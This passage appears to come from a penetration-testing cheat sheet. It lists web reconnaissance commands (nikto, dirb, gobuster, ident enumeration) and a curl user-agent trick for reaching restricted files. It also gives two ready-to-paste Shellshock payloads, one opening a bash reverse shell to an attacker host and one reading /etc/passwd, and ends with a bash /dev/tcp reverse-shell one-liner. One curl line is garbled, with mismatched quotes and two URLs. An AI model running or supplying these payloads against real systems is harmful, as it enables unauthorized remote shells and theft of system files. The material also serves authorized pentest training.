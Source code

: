    ```
   nikto -h http(s)://<ADDRESS>:PORT -o file.nikto
   ```

* Dir brute force:

   * dirb:

        ```
        dirb <http://IP:PORT> /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -o <OUTPUT FILE>
        ```

   * gobuster:

        ```
        /opt/gobuster-linux-amd64/gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --url <http://IP:PORT> -o <OUTPUT FILE>
        ```

   * Always remember dirbuster ;)

* Ident (just in case) example:

    ```
    ident-user-enum <TARGET> 22 113 139 445
    ```

* Curl

    * To access restricted files in some cases:

        ```
        curl -iv -A "Googlebot/2.1 (+http://www.googlebot.com/bot.html)" http://<VICTIM>/robots.txt)" http://<IP>/<RESTRICTED_FILE>
        ```
    
    * Shellshock simple (remember to configure listenner):

        ```
        curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/ATTACKER IP/PORT 0>&1'  http://VICTIM/cgi-bin/admin.cgi
        ```

        or

        ```
        curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://VICTIM/cgi-bin/vulnerable
        ```
        
        
        
        
## Reverse Shell

* Most frequently used (bash):
    ```
    bash -i >& /dev/tcp/<ATTACKER_IP>/<PORT> 0>&1
    ```
